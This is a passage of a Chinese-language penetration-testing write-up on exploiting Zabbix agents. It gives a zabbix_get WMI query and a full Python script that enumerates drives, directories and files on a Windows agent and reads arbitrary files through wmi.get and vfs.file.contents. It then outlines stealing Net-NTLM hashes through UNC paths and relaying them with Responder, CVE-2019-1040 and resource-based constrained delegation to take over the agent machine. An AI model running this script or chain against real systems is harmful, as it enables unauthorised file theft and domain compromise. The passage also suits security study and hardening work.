 zabbix\_agentd 服务默认以低权限用户 zabbix 运行，读取文件受 zabbix 用户权限限制。开启 AllowRoot 参数情况下 zabbix\_agentd 服务会以 root 权限运行，利用 `vfs.file.contents` 命令就能任意文件读取。

如果文件超过 64KB 无法读取，在了解该文件字段格式的情况下可利用 `vfs.file.regexp` 命令正则获取关键内容。

### [](#34-windows-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86)3.4 Windows 目录遍历

Zabbix原生监控项中，`wmi.get` 命令可以执行 WMI 查询并返回第一个对象，通过 WQL 语句可以查询许多机器信息。

如：WQL 查询盘符

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>zabbix_get -s agent -p 10050 -k "wmi.get[root\\cimv2,\"SELECT Name FROM Win32_LogicalDisk\"]"<br>``` |

利用 `wmi.get` 命令进行目录遍历、文件遍历，结合 `vfs.file.contents` 命令就能够在 Windows 下实现任意文件读取。

基于 zabbix\_get 命令写了个 python 脚本，实现 Windows 的列目录、读文件功能。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>52<br>53<br>54<br>55<br>56<br>57<br>58<br>59<br>60<br>61<br>62<br>63<br>64<br>65<br>66<br>67<br>68<br>69<br>``` | ```python<br>import os<br>import sys<br><br>count = 0<br><br>def zabbix_exec(ip, command):<br>    global count<br>    count = count + 1<br>    check = os.popen("./zabbix_get -s " + ip + " -k \"" + command + "\"").read()<br>    if "Cannot obtain WMI information" not in check:<br>        return check.strip()<br>    else:<br>        return False<br><br>def getpath(path):<br>    return path.replace("\\","\\\\\\\\").replace("$","\\$")<br><br>def GetDisk(ip):<br>    where = ""<br>    while(True):<br>        check_disk = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM Win32_LogicalDisk WHERE Name != '' " + where + "\\\"]")<br>        if check_disk:<br>            print(check_disk)<br>            where = where + "AND Name != '" + check_disk+ "'"<br>        else:<br>            break<br><br>def GetDirs(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_dir = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Caption FROM Win32_Directory WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_dir:<br>            print(check_dir)<br>            where = where + "AND Caption != '" + getpath(check_dir) + "'"<br>        else:<br>            break<br><br>def GetFiles(ip, dir):<br>    drive = dir[0:2]<br>    path = dir[2:]<br><br>    where = ""<br>    while(True):<br>        check_file = zabbix_exec(ip, "wmi.get[root\cimv2,\\\"SELECT Name FROM CIM_DataFile WHERE Drive='" + drive + "' AND Path='" + getpath(path) + "' " + where + "\\\"]")<br>        if check_file:<br>            if "Invalid item key format" in check_file:<br>                continue<br>            print(check_file)<br>            where = where + "AND Name != '" + getpath(check_file) + "'"<br>        else:<br>            break<br><br>def Readfile(ip, file):<br>    read = zabbix_exec(ip, "vfs.file.contents[" + file + "]")<br>    print(read)<br><br>if __name__ == "__main__":<br>    if len(sys.argv) == 2:<br>        GetDisk(sys.argv[1])<br>    elif sys.argv[2][-1] != "\\":<br>        Readfile(sys.argv[1], sys.argv[2])<br>    else:<br>        GetDirs(sys.argv[1],sys.argv[2])<br>        GetFiles(sys.argv[1],sys.argv[2])<br>    <br>    print("Request count: " + str(count))<br>``` |

### [](#35-windows-unc-%E8%B7%AF%E5%BE%84%E5%88%A9%E7%94%A8)3.5 Windows UNC 路径利用

在 Windows Zabbix Agent 环境中，可以利用 `vfs.file.contents` 命令读取 UNC 路径，窃取 Zabbix Agent 机器的 Net-NTLM hash，从而进一步 Net-NTLM relay 攻击。

Window Zabbix Agent 默认安装成 Windows 服务，运行在 SYSTEM 权限下。在工作组环境中，system 用户的 Net-NTLM hash 为空，所以工作组环境无法利用。

在域内环境中，SYSTEM 用户即机器用户，如果是 Net-NTLM v1 的情况下，可以利用 Responder 工具获取 Net-NTLM v1 hash 并通过算法缺陷解密拿到 NTLM hash，配合资源约束委派获取域内机器用户权限，从而拿下 Agent 机器权限。

也可以配合 CVE-2019-1040 漏洞，relay 到 ldap 上配置基于资源的约束委派进而拿下 Agent 机器权限。（此处直接结果直接引用，未做实验）

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print](assets/1699408100-3e197426dd682fb0113c4d597f04bbfa.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645843.jpg-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print](assets/1699408100-cc09defeee87b5fc7792a8593b487359.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203221645941.jpg-water_print")
